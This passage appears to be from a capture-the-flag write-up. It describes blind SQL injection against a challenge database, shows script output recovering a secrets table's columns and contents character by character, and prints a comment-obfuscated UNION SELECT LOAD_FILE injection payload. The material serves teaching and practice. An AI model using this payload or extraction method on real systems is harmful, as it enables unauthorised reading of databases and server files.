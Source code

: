 Secrets seems like the juicy one so I then modified my sql injection strings to extract column names.
The columns found for the secrets table were: name and value
```
$ python get_column_names.py 
...
Number of columns 2
...
Length of column 0 name is: 4
...
The ascii char is: n
...
The ascii char is: a
...
The ascii char is: m
...
The ascii char is: e
[110, 97, 109, 101]
name
...
Length of column 1 name is: 5
...
The ascii char is: v
...
The ascii char is: a
...
The ascii char is: l
...
The ascii char is: u
...
The ascii char is: e
[118, 97, 108, 117, 101]
value
All columns found:
['name', 'value']
```

Finally it was time to modify my script to extract the values.
There was only one row in the secrets table.
The name in that row was flag.
The value in that row was: flag was moved to flag.txt
```
$ python get_values.py 
...
[102, 108, 97, 103, 32, 104, 97, 115, 32, 98, 101, 101, 110, 32, 109, 111, 118, 101, 100, 32, 116, 111, 32, 102, 108, 97, 103, 46, 116, 120, 116]
flag has been moved to flag.txt
```

I did some googling and found that mysql has a way to interact with files. So I tried the following query

`1')/**/UNION/**/SELECT/**/LOAD_FILE('flag.txt');#`
which returned
```
The used SELECT statements have a different number of columns
```
So maybe I can infer the values here too. I just guessed the path here assuming one of the default ones.
